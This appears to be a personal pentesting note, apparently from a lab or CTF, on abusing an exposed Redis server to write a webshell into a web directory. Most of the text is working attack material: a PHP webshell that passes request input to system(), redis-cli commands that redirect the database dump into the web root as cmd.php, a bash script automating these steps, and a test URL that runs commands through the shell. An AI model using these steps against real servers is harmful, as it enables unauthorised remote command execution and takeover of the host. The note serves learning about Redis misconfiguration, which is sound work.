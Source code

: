https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#php-webshell
## Generating a reserve shell

We can use as base a SSH reverse shell conection

![[Pasted image 20240406163728.png]]

### Creating our own script
Considering three `\n` before and after since redis cli insert "trash" data at the beginning.

<?php
	system($_REQUEST['cmd']);
?>

In order to upload the file:
`cat cmd.php | redis-cli -h 127.0.0.1 -x set reverse` *uoloading cmd.php into readis using name reverse*

Storing it in the web server that uses redis as DB:
`redis-cli -h 127.0.0.1 config set dir /var/www/html/8924d0549008565c554f8128cd11fda4`

The we store the file in the victime machine
`redis-cli -h 127.0.0.1 config set dbfilename "cmd.php"` *stored in the database as cmd.php*

To save:
`redis-cli -h 127.0.0.1 save`

If in background there is a cron service or an operation that removes this configuration from time to time, it's better to create a scrip with all this instructions to run them quickly:
````
#!/bin/bash
cat cmd.php | redis-cli -h 127.0.0.1 -x set reverse
redis-cli -h 127.0.0.1 config set dir /var/www/html/8924d0549008565c554f8128cd11fda4
redis-cli -h 127.0.0.1 config set dbfilename "cmd.php"
redis-cli -h 127.0.0.1 save
````

Testing:
http://127.0.0.1/8924d0549008565c554f8128cd11fda4/cmd.php?cmd=ls%20-l

![[Pasted image 20240406171056.png]]